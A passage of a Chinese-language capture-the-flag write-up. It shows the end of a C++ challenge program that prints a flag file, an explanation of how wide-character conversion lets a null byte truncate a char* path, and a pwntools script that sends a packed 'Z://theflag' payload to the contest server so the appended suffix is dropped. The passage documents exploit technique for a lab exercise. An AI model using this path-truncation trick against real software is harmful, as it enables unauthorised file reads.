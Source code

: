 ```cpp
    file.open((char*)filename.c_str());

    if (file.is_open() == false)
    {
        std::wcout << L"Failed to open the file!" << std::endl;
        return 3;
    }

    std::wstring flag;
    std::getline(file, flag);

    std::wcout << L"The flag is: " << flag << L". Congratulations!" << std::endl;

    return 0;
}
```

不是很看得懂一些函数是在干什么，但通过拷问GPT，以及查找各种文档，发现其实所谓的“宽字符”就是把相邻两个普通字符的ascii码分为低位和高位拼在一起，作为一整个字符处理。而反过来把宽字符转为普通字符的时候则是做相反操作，并且C语言的`char*`是检测到`\x0`就直接截断了。

那么小A在后面拼的这一串`you_cant_get_the_flag`起到了什么作用呢？我反正没看出来。

于是写出脚本：

```python
from pwn import remote

ascii_bytes = [
    0x5A,  # 'Z'
    0x3A,  # ':'
    0x2f,  # '/'
    0x2f,  # '/'
    0x74,  # 't'
    0x68,  # 'h'
    0x65,  # 'e'
    0x66,  # 'f'
    0x6C,  # 'l'
    0x61,  # 'a'
    0x67   # 'g'
]

wchar_values = []
for i in range(0, len(ascii_bytes), 2):
    low_byte = ascii_bytes[i]
    high_byte = ascii_bytes[i+1] if i+1 < len(ascii_bytes) else 0x00
    wchar = (high_byte << 8) + low_byte
    wchar_values.append(wchar)

payload = ''.join(chr(wchar) for wchar in wchar_values).encode()
r = remote('202.38.93.141', 14202)
r.sendlineafter(b'token: \n', b'TOKEN')
r.sendlineafter(b"I'll append 'you_cant_get_the_flag' to it:\r\n", payload)
print(r.recv())

```
